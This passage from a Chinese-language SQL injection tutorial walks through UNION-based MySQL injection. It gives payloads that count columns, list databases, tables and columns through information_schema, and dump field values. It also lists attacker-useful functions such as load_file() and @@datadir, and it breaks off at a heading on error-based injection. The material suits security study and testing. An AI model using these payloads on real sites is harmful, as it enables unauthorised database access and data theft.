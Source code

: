 如果满足以上三点，可以判断该url为字符型注入。

判断列数：

`?id=1' order by 4#` 报错

`?id=1' order by 3#` 没有报错，说明存在3列

爆出数据库：

`?id=-1' union select 1,database(),3--+`

`?id=-1' union select 1,group\_concat(schema\_name),3 from information\_schema.schemata#`

爆出数据表：

`?id=-1' union select 1,group\_concat(table\_name),3 from information\_schema.tables where table\_schema='数据库'#`

爆出字段：

`?id=-1' union select 1,group\_concat(column\_name),3 from information\_schema.columns where table\_name='数据表'#`

爆出数据值：

`?id=-1' union select 1,group\_concat(0x7e,字段,0x7e),3 from 数据库名.数据表名--+`

**拓展一些其他函数：**

> system\_user() 系统用户名
>
> user() 用户名
>
> current\_user 当前用户名
>
> session\_user()连接数据库的用户名
>
> database() 数据库名
>
> version() MYSQL数据库版本
>
> load\_file() MYSQL读取本地文件的函数
>
> @@datadir 读取数据库路径
>
> @@basedir MYSQL 安装路径
>
> @@version\_compile\_os 操作系统
>
> 多条数据显示函数：
>
> concat()、group\_concat()、concat\_ws()

### 报错注入

extractvalue函数：
